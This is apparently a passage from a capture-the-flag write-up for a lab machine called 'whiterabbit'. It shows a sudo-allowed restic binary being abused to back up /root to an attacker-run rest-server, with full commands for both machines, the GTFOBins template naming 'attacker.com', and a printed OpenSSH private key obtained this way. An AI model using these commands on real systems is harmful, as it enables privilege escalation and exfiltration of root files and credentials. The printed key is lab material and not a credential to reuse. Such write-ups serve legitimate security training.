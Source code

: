 ```
Host whiterabbit
  HostName whiterabbit.htb
  Port 2222
  User bob

Then we can login by port 2222
```
Then by checking the `sudo -l`
```
bob@ebdce80611e9:~$ sudo -l
Matching Defaults entries for bob on ebdce80611e9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on ebdce80611e9:
    (ALL) NOPASSWD: /usr/bin/restic
```
I can find the privileged access from `GTOBins`
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

RHOST=attacker.com
RPORT=12345
LFILE=file_or_dir_to_get
NAME=backup_name
sudo restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
```

So our payload would be 
`sudo restic backup -r "rest:http://10.10.16.16:12345/mystolenrepo" /root`

Let's exploit it
```
Attacter machine:
mkdir -p ~/rest-repo/mystolenrepo
/opt/rest-server/rest-server \
  --path ~/rest-repo \
  --listen :12345 \
  --no-auth

Target machine:
export RESTIC_PASSWORD=yourpassword
sudo restic init -r rest:http://10.10.16.16:12345/mystolenrepo
export RESTIC_PASSWORD=yourpassword
sudo restic backup -r rest:http://10.10.16.16:12345/mystolenrepo /root


Attcaker machine:
export RESTIC_REPOSITORY=rest:http://localhost:12345/mystolenrepo
export RESTIC_PASSWORD=yourpassword
restic snapshots
restic restore latest --target ./recovered
```
Then we can successfully get the ssh credit of `morpheus`
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQS/TfMMhsru2K1PsCWvpv3v3Ulz5cBP
UtRd9VW3U6sl0GWb0c9HR5rBMomfZgDSOtnpgv5sdTxGyidz8TqOxb0eAAAAqOeHErTnhx
K0AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL9N8wyGyu7YrU+w
Ja+m/e/dSXPlwE9S1F31VbdTqyXQZZvRz0dHmsEyiZ9mANI62emC/mx1PEbKJ3PxOo7FvR
4AAAAhAIUBairunTn6HZU/tHq+7dUjb5nqBF6dz5OOrLnwDaTfAAAADWZseEBibGFja2xp
c3QBAg==
```